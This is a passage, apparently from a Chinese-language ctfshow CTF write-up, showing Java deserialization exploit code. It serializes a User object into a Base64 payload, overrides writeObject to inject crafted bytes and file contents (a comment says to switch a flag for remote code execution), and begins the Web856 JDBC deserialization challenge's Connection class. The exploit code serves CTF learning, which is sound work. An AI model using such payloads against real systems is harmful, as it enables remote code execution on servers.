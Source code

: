 ```java  
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(baos);    
        oos.writeObject(user);    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
    }   
}  
```  
重写的writeObject  
```java  
private void writeObject(ObjectOutputStream out) throws Exception{    
    out.writeInt(2135247942);  
    out.writeByte(1); //执行RCE的时候，将这里改成2下面注释掉即可  
	///////////////////////////  
    out.writeInt(0x36d);    
    File filename = new File(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/bash&#34;);    
    BufferedInputStream in = new BufferedInputStream(new FileInputStream(filename));  
    byte[] temp = new byte[1024];  
    int size = 0;    
    while((size = in.read(temp)) != -1){    
        out.write(temp,0,size);    
    }    
    in.close();      
    /////////////////////////  
    out.defaultWriteObject();    
}  
```  
## Web856  
考察`jdbc`反序列化  
```java  
package com.ctfshow.entity;  
   
import java.io.IOException;  
import java.io.ObjectInputStream;  
import java.io.Serializable;  
import java.sql.DriverManager;  
import java.sql.SQLException;  
import java.util.Objects;  
   
public class Connection implements Serializable {  
   
    private static final long serialVersionUID = 2807147458202078901L;  
   
    private String driver;  
   
    private String schema;  
    private String host;  
    private int port;  
    private User user;  
    private String database;  
   
    public String getDriver() {  
        return driver;  
    }  
   
    public void setDriver(String driver) {  
        this.driver = driver;  
    }  
   
    public String getSchema() {  
        return schema;  
```